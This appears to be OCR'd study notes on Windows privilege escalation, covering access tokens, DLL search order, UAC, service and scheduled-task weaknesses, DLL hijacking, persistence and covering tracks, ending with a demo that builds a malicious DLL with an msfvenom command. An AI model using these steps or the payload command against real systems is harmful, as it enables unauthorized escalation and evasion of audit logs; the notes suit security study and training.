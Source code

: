 ## Windows Access Control Mode
```

Access token:
SID
  Security descriptors:
  DACL
  SACL
  ACEs

```

## Dynamic Link Library(DLL) Search Order
```

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
The directory the the Application was run from
The directory specified in in the C+ function GetSystemDirectory()
The directory specified in the C+ function GetWindowsDirectory()
The current directory

```

## Windows Intergrity Mechanism
```

Used for applications

```

## UAC(User Account Control)
```

Asks for permissions when trying to preform changes to the computer
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System

```

## Auto Elevate Executables
```

Requested Execution Levels:
asinvoker
highestAvailable

```

## Scheduled Tasks/Services
```

Write Permissions
Non-Standard Locations
Unquoted Executable Paths
Vulnerabilities in Executables
Permissions to Run As SYSTEM

schtasks /query /fo LIST /v

wmic service list full
sc query

```

## DLL Hijacking
```

Identify Vulnerability
Take advantage of the default search order for DLLS
NAME_NOT_FOUND present in executable’s system calls
Validate permissions
Create and transfer Malicious DLL

```

## Vulnerable Services
```

Identify Vulnerability
Validate permissions
Validate Executable Paths
Replace with Malicious File

```

## Persistence
```

Survives:
Reboots
Credential changes
DHCP IP reassignment
Etc.

Considerations include:
File naming
File location
Timestomping
Port selection

```

## Covering Tracks
```

auditpol /get /category:* | findstr /i "success failure"

Event IDS:
4624/4625 -- Successful/failed login

4720 -- Account created

4672 -- Administrative user logged on

7045 -- Service created

Event Logs:
c:\windows\system32\config\
File-Type: .evtx/.evt

```

## DEMO 
```

Start Procmon
start vulnerable service
filter on process name / result contains NAME NOT FOUND / path contains dll
SSP.....dll
msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > C:\' -f dll > SSPICLI.dll
scp file to windows station


```

## 
```



```

## 
```



```

